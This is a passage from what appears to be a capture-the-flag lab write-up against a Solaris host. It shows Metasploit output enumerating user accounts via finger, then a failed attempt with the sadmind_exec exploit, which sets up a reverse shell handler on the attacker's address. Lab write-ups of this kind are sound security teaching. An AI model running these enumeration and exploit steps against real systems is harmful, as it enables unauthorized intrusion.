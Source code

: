 Knowing this, we turn to `metasploit` to help us out with this exploit..

```
msf > use auxiliary/scanner/finger/finger_users
msf auxiliary(scanner/finger/finger_users) > set RHOSTS 10.10.10.76
RHOSTS => 10.10.10.76
msf auxiliary(scanner/finger/finger_users) > run

[+] 10.10.10.76:79        - 10.10.10.76:79 - Found user: adm
[+] 10.10.10.76:79        - 10.10.10.76:79 - Found user: lp
[+] 10.10.10.76:79        - 10.10.10.76:79 - Found user: uucp
[+] 10.10.10.76:79        - 10.10.10.76:79 - Found user: nuucp
[+] 10.10.10.76:79        - 10.10.10.76:79 - Found user: dladm
[+] 10.10.10.76:79        - 10.10.10.76:79 - Found user: listen
[+] 10.10.10.76:79        - 10.10.10.76:79 - Found user: bin
[+] 10.10.10.76:79        - 10.10.10.76:79 - Found user: daemon
[+] 10.10.10.76:79        - 10.10.10.76:79 - Found user: gdm
[+] 10.10.10.76:79        - 10.10.10.76:79 - Found user: noaccess
[+] 10.10.10.76:79        - 10.10.10.76:79 - Found user: nobody
[+] 10.10.10.76:79        - 10.10.10.76:79 - Found user: nobody4
[+] 10.10.10.76:79        - 10.10.10.76:79 - Found user: postgres
[+] 10.10.10.76:79        - 10.10.10.76:79 - Found user: root
[+] 10.10.10.76:79        - 10.10.10.76:79 - Found user: svctag
[+] 10.10.10.76:79        - 10.10.10.76:79 - Found user: sys
[+] 10.10.10.76:79        - 10.10.10.76:79 - Found user: xvm
[+] 10.10.10.76:79        - 10.10.10.76:79 - Found user: openldap
[+] 10.10.10.76:79        - 10.10.10.76:79 Users found: adm, bin, daemon, dladm, gdm, listen, lp, noaccess, nobody, nobody4, nuucp, openldap, postgres, root, svctag, sys, uucp, xvm
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

### RPCBIND

Now that we have a list of users enumerated from `finger`, let's take a look at our
other open port. Searching around for vulnerabilities of this service on Solaris, we
actually find something that might allow us to get a session.

```
https://www.theregister.co.uk/2017/04/11/solaris_shadow_brokers_nsa_exploits/
```

However, trying the exploit didn't seem to work.

```
msf > use exploit/solaris/sunrpc/sadmind_exec
msf exploit(solaris/sunrpc/sadmind_exec) > set RHOST 10.10.10.76
RHOST => 10.10.10.76
msf exploit(solaris/sunrpc/sadmind_exec) > exploit

[*] Started reverse TCP double handler on 10.10.16.53:4444
[-] 10.10.10.76:111 - Exploit failed: Rex::Proto::SunRPC::RPCError 10.10.10.76:111 - SunRPC - XDR decoding failed in sunrpc_create
[*] Exploit completed, but no session was created.
```
